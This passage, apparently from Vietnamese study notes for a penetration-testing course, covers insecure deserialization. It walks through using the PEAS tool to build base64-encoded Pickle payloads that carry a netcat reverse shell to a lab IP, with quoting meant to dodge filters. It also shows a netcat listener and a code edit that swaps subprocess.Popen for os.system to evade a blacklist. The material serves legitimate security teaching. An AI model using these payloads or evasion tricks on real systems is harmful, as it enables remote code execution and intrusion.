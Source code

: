 Sau khi cài đặt, PEAS có thể tạo ra các payload cho nhiều thư viện tuần tự hóa khác nhau như **Pickle**, **PyYAML**, và **JSONPickle**.

#### **Ví Dụ:**

Khi chạy PEAS để tạo payload cho **Pickle**, bạn sẽ thấy quá trình như sau:

```bash
python3 peas.py
Enter RCE command: n''c -nv 172.17.0.1 9999 -e /bin/sh
Enter operating system of target [linux/windows]: linux
Want to base64 encode payload? [N/y]: y
Enter file location and name to save: /tmp/payload
Select Module (Pickle, PyYAML, jsonpickle, ruamel.yaml, All): pickle
```

Sau khi tạo payload, bạn có thể thiết lập một **Netcat listener** để nhận kết nối reverse shell.

```bash
nc -nvlp 9999
```

---

### **Thử Thách và Sửa Đổi Trong PEAS**

Trong quá trình thử nghiệm, một số bộ lọc có thể chặn các payload nhất định (như `subprocess.Popen`). Để vượt qua các bộ lọc này, bạn có thể cần phải sửa đổi mã trong PEAS bằng cách thay thế `subprocess.Popen` bằng `os.system`, điều này sẽ giúp tránh kích hoạt bộ lọc đen.

#### **Ví Dụ Sửa Đổi:**

Thay thế `subprocess.Popen` bằng `os.system` trong mã của PEAS:

```python
#import subprocess
import os

# Sửa lại phương thức __reduce__ để sử dụng os.system
return (os.system, (self.payload,))
```

Sau khi sửa mã, bạn có thể tạo lại payload và thử nghiệm lại. Reverse shell sẽ được thực thi thành công.

---

# 12. Tránh Các Lỗ Hổng Deserialization trong HTBank (PHP)

#### **Giới thiệu về các Định dạng Dữ liệu An toàn**

Ở phần trước, chúng ta đã sửa lỗ hổng deserialization bằng cách sử dụng HMACs (Hash-based Message Authentication Codes). Tuy nhiên, dù có biện pháp bảo mật này, kết hợp với các lỗ hổng khác như Local File Inclusion (LFI), chúng ta vẫn có thể khai thác và thực thi mã độc từ xa (Remote Code Execution - RCE).

